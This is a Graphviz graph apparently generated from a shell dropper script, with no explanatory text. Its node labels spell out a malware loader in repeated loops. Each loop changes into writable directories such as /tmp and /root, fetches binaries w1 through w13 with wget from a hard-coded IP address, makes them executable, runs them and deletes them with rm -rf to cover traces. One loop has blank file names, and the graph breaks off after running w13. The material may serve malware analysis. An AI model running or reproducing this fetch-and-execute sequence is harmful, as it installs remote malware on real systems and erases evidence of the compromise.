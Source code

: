 digraph {
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 10 [label="||,"];
10 [label="wget http://144.217.130.7/w1 "];
10 -> 12 [label=";,"];
12 [label="chmod +x w1 "];
12 -> 14 [label=";,"];
14 [label="./w1 "];
14 -> 16 [label=";,"];
16 [label="rm -rf w1 "];
16 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 28 [label="||,"];
28 [label="wget http://144.217.130.7/w2 "];
28 -> 30 [label=";,"];
30 [label="chmod +x w2 "];
30 -> 32 [label=";,"];
32 [label="./w2 "];
32 -> 34 [label=";,"];
34 [label="rm -rf w2 "];
34 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 46 [label="||,"];
46 [label="wget http://144.217.130.7/w3 "];
46 -> 48 [label=";,"];
48 [label="chmod +x w3 "];
48 -> 50 [label=";,"];
50 [label="./w3 "];
50 -> 52 [label=";,"];
52 [label="rm -rf w3 "];
52 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 64 [label="||,"];
64 [label="wget http://144.217.130.7/w4 "];
64 -> 66 [label=";,"];
66 [label="chmod +x w4 "];
66 -> 68 [label=";,"];
68 [label="./w4 "];
68 -> 70 [label=";,"];
70 [label="rm -rf w4 "];
70 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 82 [label="||,"];
82 [label="wget http://144.217.130.7/w5 "];
82 -> 84 [label=";,"];
84 [label="chmod +x w5 "];
84 -> 86 [label=";,"];
86 [label="./w5 "];
86 -> 88 [label=";,"];
88 [label="rm -rf w5 "];
88 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 100 [label="||,"];
100 [label="wget http://144.217.130.7/w6 "];
100 -> 102 [label=";,"];
102 [label="chmod +x w6 "];
102 -> 104 [label=";,"];
104 [label="./w6 "];
104 -> 106 [label=";,"];
106 [label="rm -rf w6 "];
106 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 118 [label="||,"];
118 [label="wget http://144.217.130.7/w7 "];
118 -> 120 [label=";,"];
120 [label="chmod +x w7 "];
120 -> 122 [label=";,"];
122 [label="./w7 "];
122 -> 124 [label=";,"];
124 [label="rm -rf w7 "];
124 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 136 [label="||,"];
136 [label="wget http://144.217.130.7/w8 "];
136 -> 138 [label=";,"];
138 [label="chmod +x w8 "];
138 -> 140 [label=";,"];
140 [label="./w8 "];
140 -> 142 [label=";,"];
142 [label="rm -rf w8 "];
142 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 154 [label="||,"];
154 [label="wget http://144.217.130.7/w9 "];
154 -> 156 [label=";,"];
156 [label="chmod +x w9 "];
156 -> 158 [label=";,"];
158 [label="./w9 "];
158 -> 160 [label=";,"];
160 [label="rm -rf w9 "];
160 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 172 [label="||,"];
172 [label="wget http://144.217.130.7/w10 "];
172 -> 174 [label=";,"];
174 [label="chmod +x w10 "];
174 -> 176 [label=";,"];
176 [label="./w10 "];
176 -> 178 [label=";,"];
178 [label="rm -rf w10 "];
178 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 190 [label="||,"];
190 [label="wget http://144.217.130.7/  "];
190 -> 192 [label=";,"];
192 [label="chmod +x   "];
192 -> 194 [label=";,"];
194 [label="./  "];
194 -> 196 [label=";,"];
196 [label="rm -rf   "];
196 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 208 [label="||,"];
208 [label="wget http://144.217.130.7/w12 "];
208 -> 210 [label=";,"];
210 [label="chmod +x w12 "];
210 -> 212 [label=";,"];
212 [label="./w12 "];
212 -> 214 [label=";,"];
214 [label="rm -rf w12 "];
214 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 226 [label="||,"];
226 [label="wget http://144.217.130.7/w13 "];
226 -> 228 [label=";,"];
228 [label="chmod +x w13 "];
228 -> 230 [label=";,"];
230 [label="./w13 "];
230 -> 231 [label=";,"];
}
